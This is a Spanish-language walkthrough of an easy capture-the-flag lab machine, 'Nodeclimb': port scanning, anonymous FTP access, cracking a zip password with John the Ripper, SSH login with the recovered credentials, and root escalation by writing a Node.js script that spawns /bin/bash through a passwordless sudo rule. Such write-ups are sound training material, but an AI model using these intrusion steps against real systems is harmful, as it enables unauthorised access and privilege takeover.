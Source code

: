 # Máquina Nodeclimb

- Nivel: fácil

## Escaneo de puertos

<p> Comenzamos por hacer un ping a la máquina víctima para confirmar que esta encendida </p>

```shell
ping -c 1 172.17.0.2

```

```shell

PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.066 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.066/0.066/0.066/0.000 ms

```
<p>La máquina esta encendida y funciona correctamente.</p>

<p>Ahora procedemos al escaneo de puertos mediante nmap</p>

```shell
sudo nmap -p- --open -sS -sCV -vvv -n -Pn 172.17.0.2

```

```shell

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 21:46 CET
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
Initiating ARP Ping Scan at 21:46
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 21:46, 0.07s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 21:46
Scanning 172.17.0.2 [65535 ports]
Discovered open port 21/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 21:46, 1.42s elapsed (65535 total ports)
Initiating Service scan at 21:46
Scanning 2 services on 172.17.0.2
Completed Service scan at 21:46, 0.02s elapsed (2 services on 1 host)
NSE: Script scanning 172.17.0.2.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:46
NSE: [ftp-bounce 172.17.0.2:21] PORT response: 500 Illegal PORT command.
Completed NSE at 21:46, 0.28s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.04s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000090s latency).
Scanned at 2025-02-11 21:46:39 CET for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIIJXdsH3BqdecsOrKH3q6AQI9zJxHexsJHT+Kam8R4WWmg8g0o7s75qwSx6YvfhFptiXDYcMT6hq7VNs4YnuUg=
|   256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIEGiHc4ywr2G/gO3ihoB+r77LxHnCWOkdfc3n0BiZLQ
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.50 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```
<p>El escaneo nos arroja un dato interesante, el puerto de ftp esta abierto y permite la identificación anónima</p>

## Busqueda por FTP

<p>Probamos a realizar un login anónimo</p>

```shell
ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

```

<p>Buscamos a que archivos podemos acceder</p>

```shell
ftp> ls
229 Entering Extended Passive Mode (|||34125|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip

```
<p>Vemos una carpeta comprimida, vamos a descargarla para ver que contiene</p>

```shel
ftp> get secretitopicaron.zip

```
<p>Descompromimos la carpeta</p>

```shell

unzip secretitopicaron.zip
Archive:  secretitopicaron.zip
[secretitopicaron.zip] password.txt password: 
password incorrect--reenter: 
   skipping: password.txt            incorrect password

```
<p>Nos muestra que el comprimido esta protegido por una contraseña.</p>

<p>Tratamos de acceder a él buscando la contraseña por fuerza bruta.</p>

```shell
zip2john secretitopicaron.zip > hashes
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

```shell
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (secretitopicaron.zip/password.txt)     
1g 0:00:00:00 DONE (2025-02-11 22:01) 5.000g/s 122880p/s 122880c/s 122880C/s 123456..280789
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<p>Mediante la herramienta John the Ripper obtenemos que la contraseña del zip es "password1" por lo que provamos a descomprimirla de nuevo.</p>

```shell
unzip secretitopicaron.zip
Archive:  secretitopicaron.zip
[secretitopicaron.zip] password.txt password: 
 extracting: password.txt
```

<p>Dentro del comprimodo se encuentra un archivo llamado "password.txt" con el siguiente contenido "mario:laKontraseñAmasmalotaHdelbarrioH"</p>

## Conexión por ssh

<p>Aprovechando estas credenciales nos tratamos de conectar por ssh</p>

```shell
ssh mario@172.17.0.2
```
<p>Tras esto ganamos acceso a la máquina como el usuario mario</p>

## Escalada de privilegios

<p>Buscamos privilegios que podamos explotar.</p>

```shell
sudo -l
```

```shell
Matching Defaults entries for mario on b508f6fb807e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on b508f6fb807e:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```
```shell
mario@b508f6fb807e:~$ ls -l
total 0
-rw-r--r-- 1 mario mario 0 Jul  5  2024 script.js

```
<p>Como podemos observar podemos ejecutar un archivo llamado script.js con node teniendo privilegios de root sin contraseña, además, tenemos permiso edición del archivo por lo que trataremos de llevar por aqui la escalada</p>

<p>Cargamos el siguiente script en script.js</p>

```java
const { spawn } = require("child_process");

spawn("/bin/bash", { stdio: "inherit" });

```
<p>Este script genera una shell mediante un proceso asíncrono y la redirige a nuestra salida.</p>

<p>Ejecutamos el programa como el usuario root.</p>

```shell
sudo -u root /usr/bin/node /home/mario/script.js
```
<p>Como podemos observar hemos obtenido una shell con una sesión del usuario root.</p>

```shell
root@b508f6fb807e:/home/mario# whoami
root

```

